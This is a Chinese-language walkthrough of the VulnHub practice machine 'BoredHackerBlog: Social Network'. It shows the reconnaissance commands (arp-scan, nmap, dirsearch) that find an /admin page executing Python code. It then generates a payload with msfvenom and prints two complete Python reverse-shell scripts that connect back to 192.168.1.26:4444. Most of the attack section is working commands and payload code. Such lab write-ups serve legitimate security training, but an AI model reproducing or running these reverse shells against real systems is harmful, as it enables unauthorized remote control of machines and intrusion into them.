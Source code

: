 靶机地址：[BoredHackerBlog: Social Network ~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)
扫描当前网段所有主机
```Shell
arp-scan -l
```
扫描所有端口
```Shell
nmap -p- "192.168.1.25"
```
枚举服务版本
```Shell
nmap -p22,5000 -sV 192.168.1.25
# 发现一个http服务
# 5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
```
打开web网页 简单测试 并没有发现什么漏洞
接下来进行常规操作：枚举路径
```Shell
dirsearch -u http://192.168.1.25:5000
# 扫出一个/admin 发现可以执行python代码
```
Python反弹shell负载示例
利用metasploit
```Shell
# 列出所有payload
msfvenom -l payloads > msf_payloads.txt
# 检索python 暂时用不上meterpreter
cat msf_payloads.txt | grep python | grep -v meterpreter
# 发现两个可能比较符合要求的payload
# cmd/unix/python/shell_reverse_tcp                                  Execute a Python payload from a command. Creates an interactive shell via Python, encodes with base64 by design. Compatible with Python 2.4-2.7 and 3.4+.
# python/shell_reverse_tcp                                           Creates an interactive shell via Python, encodes with base64 by design. Compatible with Python 2.4-2.7 and 3.4+.
# 尝试生成负载
msfvenom -p python/shell_reverse_tcp LHOST=192.168.1.26 LPORT=4444 > shell_reverse_tcp.py
# 查看负载
cat shell_reverse_tcp.py
# 直接粘贴到网页中执行即可
```
两个Python反弹Shell脚本示例
```Python
# metasploit 生成的脚本解码后的
import socket as s
import subprocess as r
so=s.socket(s.AF_INET,s.SOCK_STREAM)
so.connect(('192.168.1.26',4444))
while True:
        d=so.recv(1024)
        if len(d)==0:
                break
        p=r.Popen(d,shell=True,stdin=r.PIPE,stdout=r.PIPE,stderr=r.PIPE)
        o=p.stdout.read()+p.stderr.read()
        so.send(o)
```
```Python
# 这个会显示更多内容 稍微好用一点儿
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.26", 4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
